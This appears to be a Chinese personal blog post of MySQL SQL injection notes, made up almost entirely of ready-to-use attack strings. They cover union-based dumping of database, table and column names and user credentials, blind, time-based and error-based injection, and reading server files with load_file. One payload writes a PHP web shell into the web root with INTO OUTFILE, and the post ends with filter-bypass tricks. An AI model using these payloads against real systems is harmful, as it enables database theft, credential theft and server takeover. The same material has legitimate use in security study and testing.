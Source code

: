 ```yaml
---
layout: post
title: "MySQL SQL注入笔记"
date: 2017-08-27
categories: Note
---
```


### 常规报错

- 猜字段数

  `order by n/*`

#### 数字型

- 获取当前数据库名：

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+database()),2 from information_schema.columns`
- 获取所有表名:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+table_name),2 from information_schema.columns+where+table_schema=0x7374756479              //0x7374756479为数据库名的16进制`

- 获取表名中所有的字段:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+column_name),2 from information_schema.columns+where+table_name=0x7573657273 and table_schema=0x7374756479     //0x7573657273为表名的16进制`

- 获取数据:

  `http://a.com/test/1.php?id=1 and 1=2 union select concat(字段1,0x2323,字段2),2 from 表名`

#### 字符型

  `http://a.com/test/1.php?id=admin%' and 1=2 union select 1,2,concat(name,0x2323,pass) from users%23`

### 盲注

- 使用 ascii （配上二分法食用更佳）
  - 获取数据库名

    `http://a.com/test/1.php?id=1 and ord(substr(database(),1,1))=115 //判断数据库名的第一个字符的ascii,如果ascii与后面的数字不一样,则报错…`

  - 获取表名

    `http://a.com/test/1.php?id=1 and ord(substr((select distinct table_name from information_schema.columns where table_schema=0x7374756479 limit 1,1),1,1))=97`

  - 获取字段

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

  - 获取数据

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

- 使用正则表达式

  `and 1=(SELECT 1 FROM information_schema.tables  WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)`

#### 基于时间的盲注

  `SELECT target_column FROM target_table WHERE id=1 UNION SELECT IF(ord(substr(database(),1,1))=115, sleep(5),1)`

#### 基于报错

  - `http://www.waitalone.cn/sql.php?id=1+and(select 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))name from information_schema.tables group by name) as b)`

  - `updatexml(0x7e, concate(select user()),1) --+`

#### MySQL 读写文件

  - `create table a(cmd text);load data infile ’c:\xxx\xxx\xxx.txt’ into table a;select * from a;`
  - `create table a(cmd text);insert into a(cmd) values(load_file(’c:\ddd\ddd\ddd.txt’));select * from a`
  - `load_file(char(32,26,56,66))`
  - `load_file(0x633A5C626F6F742E696E69)`
  - `union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*
union select 1,2,3,load_file(’d:weblogo123.jpg’),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*`

#### 注入技巧

  - 过滤空格注入
    使用/**/或()或+代替空格

    %0c = form feed, new page
    %09 = horizontal tab
    %0d = carriage return
    %0a = line feed, new line

  - 相关函数
    system_user() 系统用户名
    user() 用户名
    current_user 当前用户名
    session_user()连接数据库的用户名
    database() 数据库名
    version() MYSQL数据库版本
    load_file() MYSQL读取本地文件的函数
    @@datadir 读取数据库路径
    @@basedir MYSQL 安装路径
    @@version_compile_os 操作系统 

  - 判断是否具有读写权限

    `and (select count(*) from mysql.user)>0/*`
    `and (select count(file_priv) from mysql.user)>0/*`